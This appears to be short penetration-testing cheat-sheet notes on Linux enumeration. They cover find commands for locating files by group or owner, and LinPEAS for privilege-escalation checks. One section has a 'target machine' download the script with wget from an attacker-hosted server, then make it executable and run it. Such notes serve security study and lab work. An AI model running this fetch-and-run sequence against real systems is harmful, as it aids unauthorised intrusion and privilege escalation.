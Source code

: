 # Linux Enumeration

## Reading all Files

```bash
cat */*
```

## Find Command

[https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group)  
```bash
find / -group groupX
```
  
[https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions)  
```bash
find / -user user
```

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Placing it in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Aliases#Useful Aliases]] for `enumserve` alias setup.

On attacker machine:

```bash
enumserve
```

Find your IP address ([[Linux Networking#Get your IP]])

On target machine:

```bash
wget [IP]:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```